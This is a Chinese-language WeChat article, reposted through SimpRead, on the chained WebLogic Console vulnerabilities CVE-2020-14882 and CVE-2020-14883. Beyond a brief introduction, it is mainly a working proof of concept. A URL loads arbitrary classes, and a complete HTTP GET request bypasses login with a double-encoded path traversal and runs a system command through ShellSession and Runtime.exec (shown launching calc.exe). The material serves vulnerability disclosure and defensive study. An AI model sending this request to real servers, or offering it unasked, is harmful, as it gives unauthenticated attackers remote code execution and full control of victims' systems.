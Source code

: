 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s?\_\_biz=MzUzNTEyMTE0Mw==&mid=2247484227&idx=1&sn=ebf785ae178f179711f8ce426e3f4380&chksm=fa8b1edbcdfc97cdd31530a8c1b62f293a6ab859d9b99ffa6bd6e863895f2639ffe40a3ee4e6&mpshare=1&scene=1&srcid=1029bKkQngGz1d0XogyfJF4u&sharer\_sharetime=1603931210864&sharer\_shareid=c051b65ce1b8b68c6869c6345bc45da1&key=9d3ca08bb5be9f04c54e415bc677a3239d8e48490a4721e9e014e9117240d110dd9f507f3b54f83459f48a27fa8291706241e6216f25be421aa14694e7dfd91f0b6aa0986e5591b8387a8707945f3d049e458ce7a83fd77ac9365b53753199675e9ac41a1fea4ecaee1e5ec9626653685aaff76f7c579cbcc9a40ba509ebf324&ascene=1&uin=ODk4MDE0MDEy&devicetype=Windows+10+x64&version=6300002f&lang=zh\_CN&exportkey=Ac0J1KeMjequVIoB%2BgglwDg%3D&pass\_ticket=XqanHwJmjJ0Tdk%2BrPOdb72YYtpZjyKrL7crfEBca6UpzsRYBedqq7VDwWAi4OjhS&wx\_header=0)

简介
--

未经身份验证的远程攻击者可能通过构造特殊的 HTTP GET 请求，利用该漏洞在受影响的 WebLogic Server 上执行任意代码。它们均存在于 WebLogic 的 Console 控制台组件中。此组件为 WebLogic 全版本默认自带组件，且该漏洞通过 HTTP 协议进行利用。将 CVE-2020-14882 和 CVE-2020-14883 进行组合利用后，远程且未经授权的攻击者可以直接在服务端执行任意代码，获取系统权限。

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdFLjibicO4l1RV6XibKWiaD2pCXG6Riad5sxxYRTtcueeoia0KocZwT8Fj9JYicU6QSvJcPbaWTyeXFxCBRQ/640?wx_fmt=png)

根据补丁 diff 结果我们可以看出，可以看出上面的变化

我们可以通过下面的代码，任意加载某个类或者对象

```
http://<target>/console/console.portal?\_nfpb=true&\_pageLabel=HomePage1&handle=java.lang.String("ahihi")
```

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdFLjibicO4l1RV6XibKWiaD2pCX1VnicHbyIr3lfZdXKp5Zbla6KQBNLjSu6VbUFufY3YqSfkb0sH8ToDw/640?wx_fmt=png)

未授权访问
-----

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdFLjibicO4l1RV6XibKWiaD2pCXoclNeh7vFBF345w1B5zicH3BoJVKeXyQTPpYJsKLIcvMzlwlkpAdkFw/640?wx_fmt=png)

非法字符绕过登陆保护

POC
---

首先通过非法字符绕过访问，然后通过 Gadget 调用命令执行，poc 如下

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdFLjibicO4l1RV6XibKWiaD2pCXv1gI1xsPZabNFibXPYL5D5ey6Ja4VS3kAcLIRvHSby6UicoiaNXn6rS8w/640?wx_fmt=png)

```
GET /console/images/%252E%252E%252Fconsole.portal?\_nfpb=true&\_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27calc.exe%27);%22); HTTP/1.1Host: 192.168.3.189:7001User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,\*/\*;q=0.8Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflateConnection: closeCookie: ADMUpgrade-Insecure-Requests: 1
```